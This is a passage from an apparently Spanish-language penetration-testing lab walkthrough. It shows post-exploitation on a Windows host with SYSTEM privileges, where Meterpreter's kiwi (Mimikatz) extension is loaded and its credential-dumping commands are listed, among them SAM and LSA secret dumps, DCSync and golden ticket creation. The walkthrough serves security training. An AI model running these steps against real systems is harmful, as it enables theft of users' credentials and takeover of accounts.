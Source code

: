 Estos resultados verifican que cualquier acción que realicemos a continuación se ejecutará con privilegios **completos de SYSTEM**, lo que nos permite interactuar con información sensible del sistema y de los usuarios.

El siguiente paso en el laboratorio consiste en obtener información sensible de los usuarios de la máquina de manera controlada, como parte de la práctica de post-explotación. Para ello, se utiliza una extensión de **Meterpreter** llamada **`kiwi`**, que corresponde a la versión integrada de la conocida herramienta de auditoría de seguridad **Mimikatz**.

Esta herramienta permite interactuar con los mecanismos de autenticación de Windows y acceder a datos almacenados en memoria, como hashes de contraseñas o tickets de sesión, siempre dentro de un entorno autorizado y seguro de laboratorio.

Para cargar la extensión en nuestra sesión de Meterpreter se ejecuta el comando:

```bash
meterpreter > load kiwi 
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```


Al ejecutarlo, Meterpreter carga la extensión en memoria y amplía su conjunto de comandos con funcionalidades específicas de `Mimikatz`, lo que se refleja en la siguiente salida:

### Visualización de comandos de Kiwi

Una vez cargada la extensión **`kiwi`** en nuestra sesión de Meterpreter, podemos consultar todas las acciones disponibles utilizando el comando:

```bash
Kiwi Commands
=============

    Command                   Description
    -------                   -----------
    creds_all                 Retrieve all credentials (parsed)
    creds_kerberos            Retrieve Kerberos creds (parsed)
    creds_livessp             Retrieve Live SSP creds
    creds_msv                 Retrieve LM/NTLM creds (parsed)
    creds_ssp                 Retrieve SSP creds
    creds_tspkg               Retrieve TsPkg creds (parsed)
    creds_wdigest             Retrieve WDigest creds (parsed)
    dcsync                    Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm               Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create      Create a golden kerberos ticket
    kerberos_ticket_list      List all kerberos tickets (unparsed)
    kerberos_ticket_purge     Purge any in-use kerberos tickets
    kerberos_ticket_use       Use a kerberos ticket
    kiwi_cmd                  Execute an arbitrary mimikatz command (unparsed)
    lsa_dump_sam              Dump LSA SAM (unparsed)
    lsa_dump_secrets          Dump LSA secrets (unparsed)
    password_change           Change the password/hash of a user
    wifi_list                 List wifi profiles/creds for the current user
    wifi_list_shared          List shared wifi profiles/creds (requires SYSTEM)
```
